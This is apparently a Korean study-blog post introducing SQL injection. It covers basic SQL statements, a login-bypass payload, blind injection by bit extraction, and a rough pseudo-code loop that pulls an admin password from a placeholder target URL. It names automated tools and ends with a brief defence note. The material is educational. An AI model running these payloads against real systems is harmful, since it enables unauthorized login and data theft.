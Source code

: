 ```yaml
---
title: "[모각코]해킹맛보기(웹해킹 마무리)"
excerpt_separator: "<!--more-->"
toc: true
toc_sticky: true
categories:
  - 모각코
tags:
  - 모각코
  - Hacking
---
```


## 데이터베이스 해킹

- 웹 언어별 일반적 DBMS 선택

  | 웹 언어 |  DBMS  |        공통 특징         |
  | :-----: | :----: | :----------------------: |
  |   PHP   | MySQL  |         오픈소스         |
  |   JSP   | Oracle |     오라클 사의 제품     |
  |   ASP   | MS-SQL | 마이크로소프트 사의 제품 |

### 공격에 필요한 구문

SQL Injection을 위해서는 각 DBMS 구문에 대해 알아야 함

간단한 SQL 삽입 - "SELECT {칼럼} FROM {테이블} WHERE {조건}"

- 웹 페이지의 회원 기능을 제작하기 위해 쓰이는 구문

  - 회원 가입 - INSERT문
  - 회원정보 수정 - UPDATE문
  - 로그인 - SELECT문
  - 회원 탈퇴 - DELETE문

- 로그인 쿼리

```
#쿼리는 아래와 같이 작성될 수 있음
select idx from member where id='입력아이디' and password='입력패스워드'
- Member 테이블에서 id가 '입력아이디'이고 password가 '입력패스워드'인 결과의 idx 칼럼 출력
```

- 이용자 추가

```
insert into member(id, password, name) values('입력아이디', '입력패스워드', '입력이름');
- Member 테이블에 '입력아이디', '입력패스워드', '입력이름' 값을 추가
```

- 회원정보 수정

```
update member set password='새로운 패스워드' where id='hellsonic'
- Member 테이블에 id가 hellsonic 인 경우 패스워드를 '새로운 패스워드'로 변경
```

- 회원 탈퇴

```
delete from member where id='hellsonic'
- Member 테이블에 id가 hellsonic인 경우 Row를 삭제
```

### 공격

사용자의 입력값은 대개 WHERE 조건절에 들어가게 되므로 Integer 형식이라면  
''값 없이 그냥 입력되지만, String 형식인 경우 '나 "사이에 문자열 값이 들어가게 되므로  
문자열 입력값에 삽입해 쿼리를 새로 작성할 수 있음

```
SELECT id FROM member WHERE id='admin' and password='' or '1'='1'
```

다음과 같은 쿼리를 삽입할 경우 모든 Row가 리턴되며 admin 아이디로 로그인 됨

![mysql 삽입 cheat sheet (2)](https://user-images.githubusercontent.com/66258691/126854980-f778c9c7-7954-48fb-a09a-c17d097a4a4b.jpg){: width="50%" height=50%"}

- **Blind SQL**

쿼리 결과의 참/거짓 정보만으로 데이터를 추출해내는 기법

"ABC" 에서 A를 추출해 내기 위해서 다음과 같은 과정 필요
A를 10진수로 변환, 그 값을 2진수로 변환 후 lpad 함수를 통해 8바이트로 맞춤
따라서 A라는 한 바이트의 문자열을 뽑기 위해서는 여덟 번의 쿼리가 실행되어야 함

```
select substr(lpad(bin(ord(substr("ABC",1,1))), 8, 0),1 ,1);
select substr(lpad(bin(ord(substr("ABC",1,1))), 8, 0),2 ,1);
select substr(lpad(bin(ord(substr("ABC",1,1))), 8, 0),3 ,1);
...
select substr(lpad(bin(ord(substr("ABC",1,1))), 8, 0),8 ,1);
01000001 -> "A"
```

하지만 이러한 과정은 매우 비효율적이므로 간단한 코딩을 통해 빠르게 데이터 추출 가능

- 코드 자동화

```js
j = 1;
stack = "";
while(1)
{
  for(i=1;i<=8;i++){
    result = get("http://x.x.x.x/target.php?id=1234&password=1' or (select substr(lpad(bin(ord(substr(password,j,1))),8,0) from member where id='admin')=1%23");
    if(result == Success){
      stack += "1";
    } else {
      stack += "0";
    }
  }
  print char(bindec(stack));
  stack = "";
  j++;
}
```

- 자동화 툴

  - pangolin
  - sqlmap
  - Havji

### 방어 기법

PHP의 경우 `magic_quotes_gpc` 라는 옵션을 통해 `' " \ null` 문자를 문자열 처리 함으로써  
SQL 삽입 공격 방어

- 참고자료
  - 해킹 맛보기

